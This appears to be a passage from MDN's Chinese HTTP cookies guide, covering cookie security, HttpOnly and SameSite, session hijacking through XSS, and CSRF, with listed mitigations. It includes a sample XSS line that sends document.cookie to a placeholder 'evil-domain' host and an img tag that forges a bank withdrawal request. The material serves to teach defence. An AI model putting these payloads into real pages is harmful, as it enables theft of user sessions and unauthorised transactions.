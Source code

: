 通过 JavaScript 创建的 Cookie 不能包含 HttpOnly 标志

请留意在[安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#Security)章节提到的安全隐患问题，JavaScript 可以通过跨站脚本攻击（XSS）的方式来窃取 Cookie

## 安全

> 信息被存在 Cookie 中时，需要明白 cookie 的值是可以被访问，且可以被终端用户所修改的
>
> 根据应用程序的不同，可能需要使用服务器查找的不透明标识符，或者研究诸如 JSON Web Tokens 之类的替代身份验证/机密机制
>
> 当机器处于不安全环境时，切记*不能*通过 HTTP Cookie 存储、传输敏感信息

缓解涉及 Cookie 的攻击的方法：

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 cookie 值

- 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`（请参见上方的 [SameSite Cookie](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies$edit#)

  在[支持 SameSite 的浏览器](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie#browser_compatibility)中，这样做的作用是确保不与跨域请求一起发送身份验证 cookie，因此，这种请求实际上不会向应用服务器进行身份验证

### 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话

因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击

常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击

### 跨站请求伪造

[维基百科](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)已经给了一个比较好的 [CSRF](https://developer.mozilla.org/zh-CN/docs/Glossary/CSRF) 例子

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走

有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)
